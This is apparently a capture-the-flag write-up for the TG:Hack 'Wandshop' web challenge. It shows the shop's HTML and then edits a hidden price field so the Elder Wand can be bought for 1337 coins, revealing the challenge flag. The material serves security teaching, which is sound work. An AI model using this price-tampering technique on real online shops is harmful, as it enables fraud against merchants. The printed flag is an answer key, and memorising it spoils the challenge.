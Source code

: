 ![Wandshop (100 pts)](./screenshots/Wandshop.png)
---
## CHALLENGE INFO
- __CHALLENGE LINK__: https://wandshop.tghack.no/
- __LANDING PAGE__:

  ![homepage](./screenshots/Wandshop_home.png)

- __ASSUMED OBJECTIVE__: Increase a wand's __*SKU*__ or decrease __*Elder Wand's cost*__
---

## Step 1 : Examine the Page Souce

- Page Source:
  ```html
  <html>
  <head>
      <title>OllyDbg Wands</title>
  </head>
  <body>


      <h1>Your credit: 1337 coins</h1>
      <h1>Shopping cart:</h1>
      <ul>
      
          <form action="/" method="post">
              <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
              <input type="hidden" name="action" value="reset"/>
              <button>Reset</button>
          </form>
      <form action="/" method="post">
          <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
          <input type="hidden" name="action" value="order"/>
          <button>Send order</button>
      </form>
      </ul>
      <h1>Items</h1>
      <div style="display: flex; flex-direction: row;">
            
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Horse-hair wand</strong><br/>
                  SKU: 1<br/>
                  Price: 123.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="1"/>
                      <input type="hidden" name="price" value="123.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
           
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Dragon-bone wand</strong><br/>
                  SKU: 2<br/>
                  Price: 323.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="2"/>
                      <input type="hidden" name="price" value="323.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
            
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Troll-snot wand</strong><br/>
                  SKU: 3<br/>
                  Price: 723.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="3"/>
                      <input type="hidden" name="price" value="723.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
            
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Elder Wand</strong><br/>
                  SKU: 321<br/>
                  Price: 5000.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="321"/>
                      <input type="hidden" name="price" value="5000.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
          
      </div>

  </body>
  </html>
  ```
  __Notes__:
  - You have 1337 coins as credits
  - Each wand's attriutes are passed as *hidden input* in individual forms
  - You __can__ change the wand's price but not your credits
---

## Step 2 : Purchase the Elder Wand

1. Change the __*Elder Wand's price*__ to at most __1337 coins__
   ```html
   <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
       <strong>Elder Wand</strong><br/>
       SKU: 321<br/>
       Price: 5000.00 coins
       <form action="" method="post">
           <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
           <input type="hidden" name="action" value="add_cart"/>
           <input type="hidden" name="sku" value="321"/>
           <input type="hidden" name="price" value="1337.00"/>
           <button type="submit">Add to cart</button>
       </form>
   </div>
   ```
2. Press __Add to cart__
   
   ![Add to cart](./screenshots/Wandshop_cart.png)

3. Press __Send order__
   ```
   Yay! You ordered an Elder Wand. FLAG: TG19{Elder wand iz best wand}
   ```
---

## FLAG : __TG19{Elder wand iz best wand}__